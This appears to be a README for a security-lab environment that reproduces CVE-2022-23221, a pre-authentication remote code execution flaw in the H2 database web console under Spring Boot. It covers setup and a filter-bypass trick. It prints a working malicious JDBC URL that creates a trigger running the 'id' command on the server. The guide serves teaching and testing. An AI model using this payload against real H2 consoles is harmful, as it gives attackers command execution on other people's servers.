


# H2 Database Web Console Pre-Auth JDBC Attack RCE (CVE-2022-23221)

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a fast, open-source Java-based relational database management system (RDBMS) that can be used in both embedded (within a Java application) and client-server modes.

Springboot with h2 database comes with a web management page if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

In version 1.4.198, the H2 Web console restricted the creation of file databases or connecting to in-memory databases, thus fixing the [CVE-2018-10054](../CVE-2018-10054) vulnerability. However, attackers could bypass this restriction using JDBC attacks and some tricks in versions 1.4.198 up to (but not including) 2.1.210, and still execute arbitrary code.

References:

- <https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf>
- <https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html>
- <https://github.com/h2database/h2database/releases/tag/version-2.1.210>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## Environment Setup

Start a spring-boot with h2 database 2.0.206:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

Before reproducing this issue, we can confirm that the payload in [CVE-2018-10054](../CVE-2018-10054) is not exploitable because in-memory database is disabled after 1.4.197:



Starting with version 1.4.197, the H2 console appends `;FORBID_CREATION=TRUE` to the JDBC URL by default, preventing the creation of file databases or connections to in-memory databases. However, attackers can bypass this restriction by adding a `\` at the end of the JDBC URL, which disrupts the URL syntax and causes FORBID_CREATION to be ignored.

Combining this trick with JDBC attacks, we can construct following malicious JDBC URL:

```
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\
```

When logging into the Web console, you can run arbitrary commands using the provided URL (pay attention to the line breaks):


